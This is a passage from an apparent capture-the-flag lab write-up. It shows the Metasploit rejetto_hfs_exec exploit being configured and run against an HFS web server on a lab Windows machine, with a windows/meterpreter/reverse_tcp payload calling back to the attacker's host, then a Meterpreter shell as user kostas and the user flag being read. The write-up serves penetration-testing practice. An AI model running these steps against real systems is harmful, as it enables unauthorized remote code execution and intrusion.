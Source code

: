 Set the target IP address (port is already set to `80`).
```
msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.10.8
RHOSTS => 10.10.10.8
```

The SRVHOST and SRVPORT are also required. These will be used to host the payload:
```
msf5 exploit(windows/http/rejetto_hfs_exec) > set SRVHOST 10.10.14.55
SRVHOST => 10.10.14.55
```

Then we set the payload to be "reverse-meterpreter-tcp" and the parameters required for it, in this case IP address and port.
```
msf5 exploit(windows/http/rejetto_hfs_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.10.14.55
LHOST => 10.10.14.55
msf5 exploit(windows/http/rejetto_hfs_exec) > set LPORT 4444
LPORT => 4444
```

We run the exploit and we get a shell as a user named `kostas`:
```
msf5 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.14.55:4444
[*] Using URL: http://10.10.14.55:8080/NSt68I
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /NSt68I
[*] Sending stage (180291 bytes) to 10.10.10.8
[*] Meterpreter session 3 opened (10.10.14.55:4444 -> 10.10.10.8:49239) at 2020-03-24 09:49:23 -0400
[!] Tried to delete %TEMP%\pfkwn.vbs, unknown result
[*] Server stopped.

meterpreter > pwd
C:\Users\kostas\Desktop
```

The user flag is in the Desktop folder:
```
meterpreter > pwd
C:\Users\kostas\Desktop
meterpreter > dir
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2020-03-30 18:22:11 -0400  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 07:57:16 -0400  desktop.ini
100777/rwxrwxrwx  760320  fil   2014-02-16 06:58:52 -0500  hfs.exe
100444/r--r--r--  32      fil   2017-03-18 08:13:18 -0400  user.txt.txt

meterpreter > cat user.txt.txt
[***REDACTED***]
```
